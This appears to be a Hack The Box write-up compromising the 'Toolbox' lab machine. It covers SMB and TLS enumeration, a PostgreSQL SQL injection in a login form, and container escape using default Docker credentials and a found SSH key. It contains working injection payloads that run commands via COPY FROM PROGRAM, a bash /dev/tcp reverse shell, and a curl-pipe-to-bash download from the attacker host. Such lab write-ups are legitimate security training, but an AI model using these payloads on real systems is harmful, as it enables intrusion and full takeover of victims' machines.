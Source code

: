 
Port 21 FTP
Port 22 SSH
Port 445 SMB
Port 5985 WinRM
Port 443 SSL

Since port 445 SMB is open, I use "crackmapexec" to gather more information about the target machine:

```
crackmapexec smb 10.10.10.236
SMB         10.10.10.236    445    TOOLBOX          [*] Windows 10.0 Build 17763 x64 (name:TOOLBOX) (domain:Toolbox) (signing:False) (SMBv1:False)
```

I can also use "smbmap" to try to list the shared resources on the victim machine:

```
smbmap -H 10.10.10.236 -u 'null'
```

However, I get access denied, so I would need valid credentials.

Continuing with enumeration, since port 443 is open, I can use OpenSSL to inspect the certificate and find more information, such as domain names, among other things:

```
openssl s_client -connect 10.10.10.236:443
```

I find a domain name, so I save it in my hosts file.

I check the website and encounter a login panel. I try SQL injection payloads and find that the authentication panel is vulnerable and is using PostgreSQL. I use payloads from the website "hacktricks" to confirm if it's vulnerable to SQL injection:

```
username=';select pg_sleep(10);-- -&password='
```

Having confirmed the vulnerability, I can try to inject commands. In PostgreSQL, I can try to create a table and execute commands:

```
username=';CREATE+TABLE+cmd_exec(cmd_output+text);--+-&password='
```

I can try to inject a command that connects to a network share via SMB on my machine and runs Netcat to establish a reverse shell:

```
# Victim machine
username=';COPY+cmd_exec+FROM+PROGRAM+'\\10.10.14.4\smbfolder\nc.exe+-e+cmd+10.10.14.4+1234';--+-&password='
# My machine
smbserver smbfolder $(pwd) -smb2support
```

This doesn't work, so I suspect the machine behind is Linux, maybe a Linux container. I play with Curl to download my malicious file that executes a reverse shell:

```bash
# On my machine
nvim shell
-----
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.4/1234 0>&1
-----
python -m http.server 80
rlwrap nc -nlvp 1234

# Victim machine
username=';COPY+cmd_exec+FROM+PROGRAM+'curl+http://10.10.14.4/shell|bash';--+-&password='
```

This way, I gain access to a container. Now, I need to escape the container to gain access to the Windows machine.

Going back to the initial port enumeration, port 22 is active, and it has a binary called "docker-toolbox." Investigating this binary, I discover default credentials, so I try them:

```
ssh docker@172.17.0.1
tcuser
```

This gives me access to another Docker container. While enumerating directories, I find a directory named "c" with a structure similar to Windows. Inside the "Administrator" directory, I find an SSH private key (id_rsa). I can try to connect to the Windows machine using this key:

```bash
# On my machine
nvim id_rsa
chmod 600 id_rsa
ssh -i id_rsa Administrator@10.10.10.236
```

This way, I gain access as the Administrator to the Windows machine and can consider the Toolbox machine on Hack The Box completed.